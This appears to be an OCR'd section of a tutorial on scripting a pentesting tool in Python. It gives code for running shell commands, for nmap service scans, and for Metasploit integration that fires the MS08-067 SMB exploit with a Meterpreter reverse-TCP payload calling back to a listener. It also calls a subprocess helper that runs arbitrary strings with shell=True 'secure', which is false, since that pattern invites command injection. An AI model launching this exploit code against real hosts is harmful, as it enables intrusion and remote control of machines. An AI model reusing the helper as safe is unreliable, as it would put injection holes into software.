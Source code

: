 #### **2. Terminal Interaction**

* Use the `subprocess` module to execute terminal commands securely and capture the output:
  ```python
  import subprocess

  def execute_command(command):
      try:
          result = subprocess.run(command, shell=True, capture_output=True, text=True)
          if result.returncode == 0:
              return result.stdout
          else:
              return f"Error: {result.stderr}"
      except Exception as e:
          return f"Exception: {str(e)}"

  # Example
  output = execute_command("nmap -sV 192.168.1.1")
  print(output)
  ```

#### **3. Pentesting Framework Integration**

* **Nmap Integration:**
  Use the Python `python-nmap` library for easy interaction:

  ```bash
  pip install python-nmap
  ```

  ```python
  import nmap

  def nmap_scan(target):
      scanner = nmap.PortScanner()
      scanner.scan(target, '1-65535', '-sV')
      return scanner[target]

  print(nmap_scan("192.168.1.1"))
  ```
* **Metasploit Integration:**
  Use the Metasploit `msfrpc` Python library to control Metasploit directly:

  ```bash
  pip install pymetasploit3
  ```

  ```python
  from pymetasploit3.msfrpc import MsfRpcClient

  client = MsfRpcClient('password')
  exploit = client.modules.use('exploit', 'exploit/windows/smb/ms08_067_netapi')
  payload = client.modules.use('payload', 'windows/meterpreter/reverse_tcp')

  exploit['RHOSTS'] = '192.168.1.100'
  payload['LHOST'] = '192.168.1.1'

  exploit.execute(payload=payload)
  ```
